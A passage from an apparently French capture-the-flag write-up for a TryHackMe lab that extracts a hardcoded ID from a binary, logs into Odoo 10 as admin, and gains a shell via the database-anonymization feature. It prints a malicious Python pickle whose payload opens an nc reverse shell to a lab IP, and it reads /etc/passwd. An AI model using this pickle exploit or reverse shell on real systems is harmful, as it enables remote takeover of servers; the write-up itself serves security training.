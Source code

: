 La notice indique que le binaire sert à retrouver un password. Accessoirement, elle indique aussi le nom du domaine, antisoft.thm

## Etape 2 : binaire password
On va s'occuper du binaire. Il demande un employee ID
```
Password Recovery
Please enter your employee id that is in your email
```
On décompile avec Ghidra, on trouve le code source. Et l'employee ID attendu est dedans (il commence par 97...) ! On peut aussi le voir avec la commande "strings" d'ailleurs
```
┌──(root㉿kali)-[~]
└─# ./password <<<$(strings password | grep ^97)
Password Recovery
Please enter your employee id that is in your email
remember this next time 'xxxxxxxxxxxxxx'
```

## Etape 3 : ODOO CRM
On va pouvoir se connecter sur le site web maintenant. On peut essayer le login "admin@antisoft.thm" et le password qu'on vient de trouver --> ça marche !
C'est le CRM Odoo, en version 10. Une rapide recherche via searchsploit nous indique une RCE possible, avec la marche à suivre

1. On installe le plugin Database Anonymization
2. Via les settings, on anonymise la base de données
3. On génère un pickle malicieux avec le code ci-dessous
4. On démarre un listener (4242)
5. On charge le pickle dans le "dé-anonymiseur" et on lance la "dé-anonymisation"
Le générateur de pickle (python2)
```
import cPickle
import os
import base64
import pickletools

class Exploit(object):
  def __reduce__(self):
    return (os.system, (("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.239.52 4242 >/tmp/f"),))

with open("exploit.pickle", "wb") as f:
  cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```

Hop, on a un shell sur le serveur. On en profite pour prendre le premier flag, dans le home de l'utilisateur courant.
```
$ id
uid=105(odoo) gid=109(odoo) groups=109(odoo)
$ grep odoo /etc/passwd
odoo:x:105:109::/var/lib/odoo:/bin/false
$ cd /var/lib/odoo
$ ls
addons
field_anonymization_main_1.pickle
filestore
flag.txt
sessions
$ cat flag.txt
THM{xxxxxxxxxxxxxxxxxxxxx}
```

